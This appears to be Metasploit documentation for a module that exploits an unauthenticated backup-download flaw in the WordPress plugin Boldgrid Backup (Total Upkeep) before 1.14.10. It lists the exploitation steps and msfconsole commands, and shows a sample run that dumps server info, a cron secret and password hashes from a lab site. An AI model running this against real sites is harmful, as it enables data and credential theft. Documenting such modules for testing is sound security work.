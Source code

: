 ## Vulnerable Application

This module exploits an unauthenticated database backup vulnerability in WordPress plugin
'Boldgrid-Backup' also known as 'Total Upkeep' version < 1.14.10.

Exploitation happens in a few steps:

1. First, `env-info.php` is read to get server information.
1. Next, `restore-info.json` is read to retrieve the last backup file.
1. That backup is then downloaded, and any sql files will be parsed looking for the `wp_users` `INSERT` statement to grab user creds.

A vulnerable version can be downloaded from here:
[Boldgrid Backup (Total Upkeep)](https://downloads.wordpress.org/plugin/boldgrid-backup.1.14.9.zip)

A free account will need to be registered at Boldgrid's site, and a serial key generated and applied.
Once the key is applied, click "Backup Site Now", or create a backup through other mechanisms in the
interface.

## Verification Steps

1. Install the plugin and create a backup
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_total_upkeep_downloader`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get an archive backup.

## Options

## Scenarios

### Boldgrid-Backup (Total Upkeep) 1.14.9 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (total_upkeep.rb)> use auxiliary/scanner/http/wp_total_upkeep_downloader
resource (total_upkeep.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (total_upkeep.rb)> run
[+] 1.1.1.1 - Vulnerable version of Boldgrid Backup detected
[*] 1.1.1.1 - Obtaining Server Info
[+] 1.1.1.1 -
  gateway_interface: CGI/1.1
  http_host: 1.1.1.1
  php_sapi_name: apache2handler
  php_uname: Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
  php_version: 7.4.3
  server_addr: 1.1.1.1
  server_name: 1.1.1.1
  server_protocol: HTTP/1.1
  server_software: Apache/2.4.41 (Ubuntu)
  uid: 33
  username: www-data
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._165408.txt
[*] 1.1.1.1 - Obtaining Backup List from Cron
200
[+] 1.1.1.1 -
  ABSPATH: /var/www/wordpress/
  archive_key: 0
  cron_secret: ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd
  filepath: /var/www/wordpress/wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
  siteurl: http://1.1.1.1
  site_title: localhost
  restore_cmd: php -d register_argc_argv="1" -qf "/var/www/wordpress/wp-content/plugins/boldgrid-backup/boldgrid-backup-cron.php" mode=restore siteurl=http%3A%2F%2F1.1.1.1 id=ec5c393c secret=ab0d1ce965f799a90bd4f1bd5f3009471eb9e020a15408e3d91256e9cf3e74dd archive_key=0 archive_filename=boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip site_title=localhost
  timestamp: 1609362824
[+] 1.1.1.1 - File saved in: /home/h00die/.msf4/loot/20201230163041_default_1.1.1.1_boldgridbackup._983176.txt
[*] 1.1.1.1 attempting download of wp-content/boldgrid_backup_L8VjcGzUexMe/boldgrid-backup-1.1.1.1-ec5c393c-20201230-211323.zip
[+] 1.1.1.1 - Database backup (22372663 bytes) saved in: /home/h00die/.msf4/loot/20201230163042_default_1.1.1.1_boldgridbackup._100789.zip
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test001.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test002.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test005.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test006.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test008.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test009.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test010.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test011.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wp-content/plugins/boldgrid-backup/vendor/ifsnop/mysqldump-php/tests/test012.src.sql
[*] 1.1.1.1 - Attempting to pull creds from wordpress_db.20201230-211322.sql
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] 1.1.1.1 - finished processing backup zip
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_total_upkeep_downloader) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      1.1.1.1           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      1.1.1.1           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      1.1.1.1           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
